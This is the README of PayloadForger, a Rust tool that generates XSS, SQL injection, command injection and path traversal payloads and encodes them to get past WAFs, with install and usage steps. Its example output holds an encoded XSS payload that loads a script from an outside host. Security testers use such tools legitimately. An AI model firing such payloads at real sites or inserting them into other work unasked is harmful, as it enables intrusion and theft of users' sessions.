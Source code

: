 # PayloadForger

PayloadForger is a tool designed to generate custom payloads for web application security testing. It supports various attack types including XSS, SQL Injection, Command Injection, and Path Traversal. The tool generates payloads based on user input and provides encoded versions in hexadecimal and Base64 formats to help bypass security filters and WAFs.

## Features

Generate payloads for XSS, SQL Injection, Command Injection, and Path Traversal.

Encode payloads in hexadecimal and Base64.

Support for custom payloads with path traversal for more advanced testing.

## Directory Structure

The project has the following directory structure:


project-root/
├── src/
│   ├── attack_types.rs
│   ├── main.rs
│   └── payload.rs
├── payloads/
│   ├── xss.txt
│   ├── sqlinjection.txt
│   ├── commandinjection.txt
│   └── custom.txt
├── Cargo.toml
└── target/

## Requirements

Rust (1.56 or later)
Cargo (Rust package manager)

## Installation

Clone the repository:



git clone https://github.com/CypherHippie/PayloadForger.git
cd payload-forge

## Build the project:



cargo build --reléase

## Run the application:



cargo run -- <payload_type> <attack_type> [custom_payload]

<payload_type>: raw

<attack_type>: xss, sqlinjection, commandinjection, pathtraversal

[custom_payload] (optional): Custom payload path for path traversal

## Usage

To generate a payload, run the application with the desired parameters:

### XSS Payload:


cargo run -- raw xss

### SQL Injection Payload:


cargo run -- raw sqlinjection

### Command Injection Payload:


cargo run -- raw commandinjection


### Path Traversal Payload with Custom Payload:


cargo run -- raw pathtraversal /path/to/custom/payload.txt

### Example Output


Raw: %3Ciframe src='javascript:alert("&lt;SCRIPT a=\"&gt;'&gt;\" SRC=\"http&#58;//ha&#46;ckers&#46;org/xss&#46;js\"&gt;&lt;/SCRIPT&gt;")'%3E%3C/iframe%3E
Hex: <encoded_hex_value>
Base64: <encoded_base64_value>

## Contributing

Contributions are welcome! If you find a bug or have a feature request, please open an issue or submit a pull request.

## License

This project is licensed under the MIT License - see the LICENSE file for details.

## Acknowledgments

The tool leverages the Rust programming language and its ecosystem for robust and efficient payload generation.

Thanks to the community for their support and contributions.